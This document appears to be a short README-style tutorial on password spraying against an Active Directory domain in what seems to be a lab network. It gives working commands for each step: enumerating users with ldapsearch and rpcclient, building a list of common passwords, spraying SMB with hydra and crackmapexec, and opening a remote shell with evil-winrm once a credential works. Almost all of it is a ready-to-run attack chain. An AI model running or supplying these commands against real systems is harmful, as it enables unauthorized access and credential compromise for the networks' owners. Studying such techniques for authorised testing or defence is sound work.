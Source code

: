 # Creating User Files and Running Password Spraying Attacks

## 1) Creating User Files
From enumeration, we can gather the user information using either `ldapsearch` or `rpcclient`.

### Using `ldapsearch`:
```bash
ldapsearch -H ldap://192.168.56.107 -x -b"DC=skypia,DC=org" '(objectClass=User)' "sAMAccountName" | grep "sAMAccountName"
```

### Using `rpcclient`:
```bash
rpcclient -U "jemmie.blondell" 192.168.56.107
```
Then type `enumdomusers` to list the users.

After gathering the usernames, save them with this command:
```bash
cut -d':' -f2 input_file > output_file
```

## 2) Create a Password File with a Few Passwords
Create a password file with common passwords like:
- qwerty123
- happy
- summer
- passw0rd
- winter

## 3) Run Spraying Attacks for Different Services

Use `hydra` to perform password spraying for SMB service:
```bash
hydra -L users.txt -P password.txt -s 445 smb://192.168.56.107
```

Alternatively, use `crackmapexec`:
```bash
crackmapexec smb 192.168.56.107 -u users.txt -p password.txt --continue-on-success
```

## 4) Repeat the Process
Repeat the attack a couple of times. Once you get a valid password, use `evil-winrm` for remote access:

```bash
evil-winrm -i 192.168.56.107 -u <valid_user> -p <password>
```

